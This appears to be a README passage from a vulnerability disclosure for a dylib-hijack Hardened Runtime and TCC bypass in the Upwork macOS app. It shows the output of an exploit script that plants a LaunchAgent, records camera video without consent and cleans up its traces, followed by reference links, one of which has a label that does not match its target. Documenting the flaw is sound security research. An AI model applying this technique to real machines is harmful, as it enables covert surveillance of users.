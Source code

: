 ### Output of running go.sh
```
04:27:52-testmac@mpro:~/Desktop/UPWORK/exploit$ bash go.sh 
[i] Upwork 5.8.0.33 Hardened Runtime + TCC Bypass Camera Recording
[i] Creating base_poc.m file
[i] Compiling demo dylib hijack example
[i] Spawning "Upwork" and demoing hardened runtime bypass
2023-12-23 04:27:55.489 Upwork[2131:52005] [INFO] dylib constructor called from /Applications/Upwork.app/Contents/MacOS/Upwork
2023-12-23 04:27:55.489 Upwork[2131:52005] [INFO] Exiting !
[i] Cleaning up demo
[i] Compiling exploit dylib hijack
[i] Creating ~/Library/LaunchAgents/ if it doesn't exist
[i] Creating LaunchAgent plist in ~/Library/LaunchAgents/
com.upwork.attacker.launcher.plist
[i] Clearing the LaunchAgent from previous attempt
[i] Launching the LaunchAgent
[i] Sleeping for 5 seconds
[i] Copying video to current directory
[i] Cleaning up
    [i] Removing the LaunchAgents plist
    [i] Removing the dylib
    [i] Removing the log file
[i] Opening the recorded video
[i] Finished !!!
```

## Further Information
- [CVE-2020-24259 -- Bypass TCC with Signal to Access Microphone](https://www.ffri.jp/assets/files/research/research_papers/AS-23-Koh-Dirty-Bin-Cache-A-New-Code-Injection-Poisoning-Binary-Translation-Cache.pdf)
- [CVE-2023-26818 -- Telegram TCC Bypass](https://danrevah.github.io/2023/05/15/CVE-2023-26818-Bypass-TCC-with-Telegram/)
- [Apple Developer -- Hardened Runtime](https://developer.apple.com/documentation/security/hardened_runtime)
- [Apple Developer -- Disable Library Validation Entitlement](https://developer.apple.com/documentation/bundleresources/entitlements/com_apple_security_cs_disable-library-validation)
- [Apple Developer -- Audio Input Entitlement](https://developer.apple.com/documentation/bundleresources/entitlements/com_apple_security_device_audio-input)
- [Apple Developer -- Camera Entitlement](https://developer.apple.com/documentation/bundleresources/entitlements/com_apple_security_device_camera)
- [SentinelOne -- Bypassing macOS TCC User Privacy Protections By Accident and Design](https://www.sentinelone.com/labs/bypassing-macos-tcc-user-privacy-protections-by-accident-and-design/)